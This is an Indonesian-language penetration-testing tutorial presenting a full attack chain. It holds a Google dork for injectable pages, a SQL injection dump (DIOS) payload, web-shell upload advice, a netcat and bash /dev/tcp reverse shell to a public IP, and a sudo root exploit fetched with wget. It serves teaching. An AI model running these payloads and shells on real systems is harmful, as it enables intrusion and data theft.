# Hacking Anatomy

> Materi ini dijadikan untuk tujuan pendidikan. Peserta diharapkan menggunakan pengetahuan dengan bijak dan bertanggung jawab. Kami tidak bertanggung jawab atas tindakan ilegal diluar Materi ini.

### Apa itu Hacking Anatomy

**Hacking Anatomy** adalah istilah yang merujuk pada tahapan atau proses yang dilakukan seorang hacker dalam melakukan serangan terhadap sistem komputer atau jaringan. Ini mencakup langkah-langkah sistematis yang biasanya diikuti untuk menemukan, mengeksploitasi, dan mengekspos kelemahan dalam sistem target. Proses ini sering kali digunakan dalam konteks **penetration testing** atau pengujian keamanan sistem.

### Apa saja alat yang digunakan hacking anatomy?

* cURL
* Nmap
* SQLMap
* DirSearch
* Whois
* Domain Finder
* Dan seterusnya...

### Apa saja Langkah - Langkah Hacking Anatomy

##### Reconnaissance / Footprinting

* Apa itu Reconnaissance / Footprinting

  * Pengumpulan informasi tentang target, seperti alamat IP, domain, atau jaringan. Ini bisa dilakukan secara pasif atau aktif.
* Penerapan

  * Dorking pada Mesin Pencarian

    - Kita bisa melakukan information gathering dengan search engine yang tersedia, untuk search engine bisa menggunakan google / duckduckgo / bing / dsb.
    - Setelah itu kita cari data apa saja yang tersedia seperti kontak, alamat, website tersebut website bidang apa, dsb…
      contoh live target: example.com
      contoh dorking: berita.php?id= site:com

    
  * Whois

    * Selanjutnya kita bisa melakukan Whois untuk mendapatkan sebuah data umum server mulai dari domain, alamat penyedia layanan, kontak, dsb….
    * Untuk perintah bisa menggunakan dibawah ini:

      * whois [IP Target / Host Target]

        
  * cURL

    * Setelah itu kita langsung menuju website target untuk melakukan scanning, untuk pertama kita bisa menggunakan curl untuk mengetahui response apa saja yang kita terima jika kita mengirimkan requests.
    * Jalankan Perintah: curl -v [IP VM]

      
  * Trace Route

    * Active reconnaissance (rekognisi aktif) adalah tahap dalam proses penyerangan atau pengumpulan informasi yang melibatkan interaksi langsung dengan target sistem atau jaringan untuk mengumpulkan data rinci. Tidak seperti passive reconnaissance, yang bergantung pada pengamatan tanpa interaksi langsung, active reconnaissance melibatkan pengiriman permintaan dan analisis respons untuk mengungkapkan informasi spesifik tentang target.
      * linux = `traceroute [HOST / IP]`
      * windows = `tracert [HOST / IP]`

        

##### Scanning

* Apa itu Scanning

  * Mengidentifikasi port terbuka, layanan yang berjalan, dan mencari kerentanan pada sistem target menggunakan alat seperti Nmap, Nessus, dll.
* Penerapan

  * Nmap

    * Setelah itu kita bisa melakukan pemindaian port yang terbuka apa saja dengan tools yang bernama nmap dengan perintah seperti berikut:
    * `nmap -sV [IP / HOST]`

      

##### Enumerate

* Apa itu Enumerate
  * langkah kritis karena informasi yang diperoleh dapat digunakan untuk merencanakan langkah eksploitasi lebih lanjut terhadap target, alat yang digunakan seperti DirSearch(Enumerate Web Application), dig(DNS Enumeration), enum4linux(SMB Enumerate), dan lain sebagainya.
* Penerapan
  * DirSearch

    * dirsearch adalah alat open-source yang digunakan untuk melakukan brute-force terhadap direktori dan file di situs web. Alat ini sangat berguna dalam pengujian penetrasi web dan pengumpulan informasi, membantu penguji untuk menemukan direktori tersembunyi dan file yang mungkin tidak terdeteksi oleh crawler biasa.
    * Perintah : `dirsearch -u [HOST / IP]`

      
  * Pengecekan Celah Keamanan (contoh: SQL Injection)

    * SQL Injection adalah teknik serangan keamanan pada basis data yang memanfaatkan celah keamanan dalam aplikasi web yang menerima input dari pengguna dan tidak memvalidasi atau menyaring input dengan benar. Kita bisa melakukan testing apakah target mempunyai vulnerability dengan memberi ‘ pada parameter POST maupun GET

      

##### Gaining Access

* Apa itu Gaining Access

  * Memanfaatkan kerentanan yang ditemukan untuk masuk ke dalam sistem, misalnya melalui exploit atau teknik brute force
* Penerapan

  * Gaining Access (Dump In One Shoot / DIOS)

    * Dalam konteks SQL Injection perintah DIOSadalah untuk melihat / dump data dalam satu kali injeksi.
    * perintah DIOS: `concat(0x3c68313e696e6a656b7369206f6c656820616b753c2f68313e,(select/**/group_concat(table_name,0x3a,column_name,0x3c62723e)/`

    

    

##### Privileges Escalation

* Apa itu Privileges Escalation

  * Teknik dalam keamanan siber di mana seorang penyerang mendapatkan akses dengan hak istimewa yang lebih tinggi dari yang awalnya mereka miliki di dalam sistem atau jaringan.
* Penerapan

  * Login Halaman Admin

    * Anda bisa mendapatkan halaman login admin dari DirSearch diatas(Jika terdapat halaman Login Admin).
  * Upload Shell

    * Anda bisa mencari referensi shell dari mesin pencarian seperti google, bing, atau dsb, `cari yang bisa untuk back connect`.
      Sumber: https://github.com/nicxlau/alfa-shell/tree/master?tab=readme-ov-file
  * Back Connect Shell

    * Setelah melakukan upload file kita melakukan Back Connect Shell menggunakan netcat dan she

      * **Penyerang Jalankan**

        * Diterminal jalankan netcat: `nc -lvp 4444`
      * **Target Jalankan**

        * Pada shell jalankan: `bash -i >& /dev/tcp/[IP Publik]/[PORT] 0>&1` atau menggunakan fitur yang ada pada Back Connect Shell.
          *Note: Untuk IP Publik dan Port bisa mencara langkah2 cara port forwarding dengan ngrok maupun serveo.net pada internet.
    * Eskalasi Ke Root

      * Setelah melakukan back connect, kita melakukan eskalasi ke akses root. Seperti contoh kita menggunakan exploit yang telah ada **`https://github.com/CptGibbon/CVE-2021-3156`** Untuk Exploit lain anda bisa mencari melalui website Exploit-DB maupun mesin pencarian.

        * Perintah:
        * Anda bisa download menggunakan `wget`
        * Lalu jalankan `make`
        * Untuk memastikan anda menggunakan super user bisa menjalankan perintah `id`

          
* Apa itu Pilfering

  * Proses pengumpulan atau pencurian data sensitif dari sistem atau jaringan yang telah berhasil diakses oleh penyerang seperti file - file yang berada pada folder `/root`

##### Covering Tracks

* Apa itu Covering Tracks
  * Proses yang dilakukan oleh penyerang untuk menghapus jejak aktivitas mereka setelah melakukan serangan terhadap sistem atau jaringan.

##### Backdooring / Maintaining Access

* Apa itu Backdooring / Maintaining Access
  * Proses serangan siber di mana penyerang berusaha untuk mempertahankan akses ke sistem atau jaringan yang telah berhasil mereka masuki.

##### DOS

* Apa itu DOS
  * **DoS (Denial of Service)** adalah jenis serangan siber yang bertujuan untuk membuat sebuah layanan, server, atau jaringan menjadi tidak tersedia bagi pengguna yang sah dengan membanjiri sistem target dengan lalu lintas berlebihan atau memanfaatkan kelemahan spesifik pada sistem tersebut.
